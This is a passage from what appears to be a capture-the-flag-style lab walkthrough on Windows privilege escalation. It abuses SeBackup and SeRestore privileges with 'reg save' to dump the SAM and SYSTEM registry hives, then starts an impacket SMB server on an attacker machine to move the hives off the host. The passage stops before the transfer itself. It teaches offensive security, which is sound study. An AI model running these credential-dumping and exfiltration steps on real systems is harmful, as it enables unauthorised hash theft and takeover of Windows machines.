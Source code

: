 While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.


SeBackup / SeRestore
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. 
The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. 
The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.\

This account is part of the "Backup Operators" group, which by default is granted the SeBackup and SeRestore privileges.
We will need to open a command prompt using the "Open as administrator" option to use these privileges. We will be asked to input our password again to get an elevated console:

Run as admin

Once on the command prompt, we can check our privileges with the following command:

Command Prompt
C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
To backup the SAM and SYSTEM hashes, we can use the following commands:

Command Prompt
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. 
For SMB, we can use impacket's smbserver.py to start a simple SMB server with a network share in the current directory of our AttackBox:

Kali
Linux
user@attackerpc$ mkdir share
user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. 
After this, we can use the copy command in our windows machine to transfer both files to our AttackBox: 
